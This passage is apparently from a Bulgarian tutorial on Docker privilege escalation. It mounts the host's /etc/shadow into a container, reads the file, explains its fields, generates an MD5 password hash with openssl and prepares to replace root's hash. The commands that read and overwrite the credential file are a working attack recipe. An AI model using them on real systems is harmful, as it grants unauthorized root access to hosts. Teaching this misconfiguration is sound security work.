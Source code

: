 Docker потребителят е `root`. Това значи, че в произволен контейнер можем да закачим всяка директория или файл. Какво бихме искали да mount-нем? Очевиден избор е `/etc/shadow`, където се съхраняват паролите на потребителите. Да видим:

```sh
root@8527c0fa48ad:/# docker run -it -v /etc/shadow:/etc/shadow debian:latest bin/bash
root@10155f95be81:/# cat /etc/shadow
root:$6$Kad231.b$A0EIaZMI.IBoBztK3lMn20A0ELaZMI.IBoBztK3lMn20A0EIaZMI.IBoBztK3lMn20:17110:0:99999:7:::
daemon:*:17001:0:99999:7:::
bin:*:17001:0:99999:7:::
sys:*:17001:0:99999:7:::
sync:*:17001:0:99999:7:::
games:*:17001:0:99999:7:::
man:*:17001:0:99999:7:::
lp:*:17001:0:99999:7:::
mail:*:17001:0:99999:7:::
news:*:17001:0:99999:7:::
uucp:*:17001:0:99999:7:::
[...]
```

На първия ред виждаме хешираната парола на `root`. Всеки ред съдържа стойности, разделени с `:`:

- `root` е, очевидно, името на потребителя.
- `$6$Kad231.b$A0EIaZMI.IBoBztK3lMn20A0ELaZMI.IBoBztK3lMn20A0EIaZMI.IBoBztK3lMn20` е хешът на паролата:
    - `$6$` означава, че хешът е SHA512.
    - `Kad231.b` е солта.
    - `A0EIaZMI.IBoBztK3lMn20A0EIaZMI.IBoBztK3lMn20A0EIaZMI.IBoBztK3lMn20` е самият хеш.
- `17110` е брой дни (от първи януари 1970-та), преди които последно е сменена паролата.
- `0` е минималният брой дни, преди които паролата не може да бъде сменена.
- `99999` е броят дни, след които паролата трябва да бъде сменена.
- `7` е брой дни преди изтичането на паролата, когато потребителят трябва да бъде предупреден, че трябва да я смени.
- Последните две празни стойности са съответно:
    - Колко дни след изтичането на паролата трябва да бъде деактивиран потребителят.
    - Абсолютна дата, на която трябва да бъде деактивиран.

Това, което ни интересува е хешираната парола. Имаме достъп за писане до файла, така че трябва само да генерираме нова:

```sh
root@10155f95be81:/# apt install openssl vim
[...]
root@10155f95be81:/# openssl passwd -1 -salt 123 haxx
$1$123$inYSeyhgm/nz0BAstU9Tc/
```

`-1` казва на `openssl` да генерира `md5` хеш. Това е ужасно счупен хеширащ алгоритъм. Но пък е лесен за генериране, а за целите на демото не ни интересува. `123` е солта към хеша, а `haxx` е самата парола.

Остава само да копираме генерирания низ и да сменим съществуващия в `/etc/shadow`.
